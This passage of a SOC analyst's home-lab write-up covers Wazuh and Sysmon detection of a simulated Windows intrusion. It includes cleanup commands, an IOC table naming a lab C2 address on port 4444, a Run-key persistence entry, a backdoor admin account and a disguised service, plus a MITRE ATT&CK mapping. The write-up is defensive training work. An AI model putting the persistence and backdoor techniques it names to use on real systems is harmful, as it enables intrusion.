


**Rule 60122, Level 5, Event ID 4625.** Separately, I triggered a failed
login against the `Effizy` account (wrong password) and Wazuh logged it as
"Logon failure - Unknown user name or bad password," capturing the logon
type, process (`svchost.exe`), and failure reason. A single failed login
isn't an incident on its own, but it shows the authentication-monitoring
pipeline that a real brute-force detection rule would build on — repeated
hits of this same rule in a short window is what triggers active response in
a production deployment.

---

### Additional Capability: Security Configuration Assessment (SCA)



Alongside the alert-based detections above, Wazuh's **SCA module** ran CIS
benchmark checks against the Windows endpoint, for example, verifying
password history, minimum password age/length, and account lockout duration
against the **CIS Microsoft Windows 10 Enterprise Benchmark v1.12.0**. This
is a different layer from the real-time alerts in Findings 1–9: it's
continuous *compliance* checking rather than *intrusion* detection, and it's
worth including because it shows Wazuh covering both sides, "is this
endpoint being attacked?" and "is this endpoint configured securely in the
first place?"

---

## PHASE 3: ERADICATION AND VERIFICATION



I removed the artifacts the attacker left behind:

```cmd
sc stop WazuhTestService
sc delete WazuhTestService
net localgroup Administrators WazuhTestBackdoor /delete
net user WazuhTestBackdoor /delete
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v SystemUpdateHelper /f
del /F C:\Users\Effizy\Downloads\test_payload.exe
```

`sc stop` returned error 1062 ("the service has not been started") — expected,
since the service's binary was never a functioning service executable, so it
never actually started. `sc delete` still succeeded and removed it.

Verification afterward confirmed: `WazuhTestBackdoor` is gone from `net user`,
`WazuhTestService` returns nothing from `sc query`, the `SystemUpdateHelper`
Run key entry is gone (only legitimate entries — OneDrive, Google Updater,
Edge — remain), and `netstat` shows no connection on port 4444.

> **Note:** this cleanup pass removed `test_payload.exe` (the FIM test file).
> If `not_malware.exe` is still sitting in Downloads, add
> `del /F C:\Users\Effizy\Downloads\not_malware.exe` to fully close this out.



### Finding 10: Wazuh Also Detected the Cleanup

The "after" dashboard (last 15 minutes) isn't completely silent — it shows
**2 alerts at Level 12 or above**, with the Top 5 Alerts including
"Administrators group changed" and an account-deletion event. That's
expected: removing `WazuhTestBackdoor` from the Administrators group and
deleting the account are themselves account-management events, and Wazuh
flagged them the same way it flagged their creation in Findings 3 and 4.
**This is arguably the best closing point of the whole lab** — the same
detection logic that caught the attacker also caught me cleaning up after
them. Wazuh doesn't distinguish between "bad guy creating a backdoor" and
"good guy removing one", it just reports account and privilege changes,
which is exactly what you want from an EDR.

---

## IOC Summary

| Indicator | Type | Value |
|---|---|---|
| not_malware.exe | Malware file | C:\Users\Effizy\Downloads\not_malware.exe |
| test_payload.exe | FIM test file | C:\Users\Effizy\Downloads\test_payload.exe |
| C2 Server | IP | 192.168.56.10 |
| C2 Port | Port | 4444 |
| Backdoor account | Username | WazuhTestBackdoor |
| Persistence key | Registry | HKCU\...\CurrentVersion\Run\SystemUpdateHelper |
| Malicious service | Service name | WazuhTestService |
| Service binary | Path | C:\Users\Effizy\Downloads\not_malware.exe |

---

## Detection Coverage: Wazuh Rules & MITRE ATT&CK Mapping

| Rule ID | Level | Technique(s) | Tactic(s) | What Was Detected |
|---|---|---|---|---|
| 60602 | 0 | — | — | Application crash, first trace of not_malware.exe execution |
| 61618 | 12 | T1055 | Defense Evasion, Privilege Escalation | Suspicious svchost.exe with null parent GUID |
| 60109 | 8 | T1098 | Persistence | Local account created (WazuhTestBackdoor) |
| 60154 | 12 | T1484 | Defense Evasion, Privilege Escalation | Administrators group membership changed (Event 4732) |
| 92302 | 8 | T1547.001 | Persistence, Privilege Escalation | Registry Run key written via reg.exe |
| 61138 | 5 | T1543.003 | Persistence, Privilege Escalation | New Windows service created (Event 7045) |
| 554 | 5 | — | — | File added to Downloads (FIM, real-time) |
| 63103 | 5 | T1070 | Defense Evasion | Security audit log cleared (Event 1102) |
| 60122 | 5 | T1078, T1531 | Initial Access, Persistence, Privilege Escalation, Defense Evasion, Impact | Failed logon, bad password (Event 4625) |

---

## Key Takeaways

**Centralised logging defeats log clearing.** The attacker cleared the local
Windows Security log. Every alert tied to that activity still existed in
Wazuh. You cannot destroy evidence that has already left the machine.

**Behaviour-based detection catches what signatures miss.** Wazuh detected
the attack chain using Windows event IDs and Sysmon telemetry, not file
signatures. The same detection logic would catch any variant of this attack
because it watches what processes *do*, not what they look like.

**Severity levels matter, and so does reading them correctly.** Not every
alert that's part of an attack chain is high severity on its own (Finding 1
was Level 0). Building the full picture means correlating low- and
high-severity events into a timeline, not just filtering for red alerts.

**Detection doesn't know who's typing.** The same rules that caught the
attacker creating and escalating a backdoor account also caught me removing
it during cleanup. That's not a bug, it's the point.

**Sysmon is the difference between good logs and great logs.** Native
Windows Event Logs told me *what* happened. Sysmon told me *how*, *when*, by
*what process*, from *what parent*, with *what hash*, and to *what
destination*, often in a single event.

---

*Effiong Okon: SOC Analyst*
*LinkedIn: linkedin.com/in/okon-effiong/*
*GitHub: github.com/effiong-okon*
